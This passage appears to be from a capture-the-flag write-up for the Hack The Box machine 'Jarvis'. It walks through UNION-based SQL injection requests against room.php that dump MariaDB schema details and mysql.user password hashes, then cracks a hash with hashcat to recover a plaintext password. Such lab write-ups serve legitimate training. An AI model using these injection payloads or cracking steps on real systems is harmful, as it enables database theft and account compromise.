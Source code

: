 ```http
GET /room.php?cod=999+union+select+1,2,3,@@version,5,6,7 HTTP/1.1

10.1.37-MariaDB-0+deb9u1
```

#### Searching for tables & Columns

First we need to find all tables and columns on the system.

```http
GET /room.php?cod=999+union+select+1,2,3,group_concat(concat(table_name,':',column_name)),5,6,7+from+information_schema.columns HTTP/1.1
```

The only non default columns are: `room:cod,room:name,room:price,room:descrip,room:star,room:image,room:mini` and these don't contain any information that will help us.

#### Exploiting the mysql.user table

We know that we're running version 10.1.37 and that version has the [mysql.user table](https://mariadb.com/kb/en/mysqluser-table/). This table contains the username and password hashes for the database users.

```http
GET /room.php?cod=999+union+select+1,2,3,group_concat(concat(user,':',password)),5,6,7+from+mysql.user HTTP/1.1

DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

### Cracking the password hash

```bash
luc@kali:~/HTB/Jarvis$ hashcat --example-hashes
...
MODE: 300
TYPE: MySQL4.1/MySQL5
HASH: fcf7c1b8749cf99d88e5f34271d636178fb5d130
PASS: hashcat
...
luc@kali:~/HTB/Jarvis$ echo 'DBadmin:2D2B7A5E4E637B8FBA1D17F40318F277D29964D0' > hashes
luc@kali:~/HTB/Jarvis$ hashcat -m 300 --username hashes /usr/share/seclists/Passwords/darkweb2017-top10000.txt
...
2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
...
```

We've found the password `imissyou`

## PHPMyAdmin

We've a password, but nowhere to use it (DBadmin:imissyou didn't work as SSH credentials). Running GOBuster does show an interesting result.
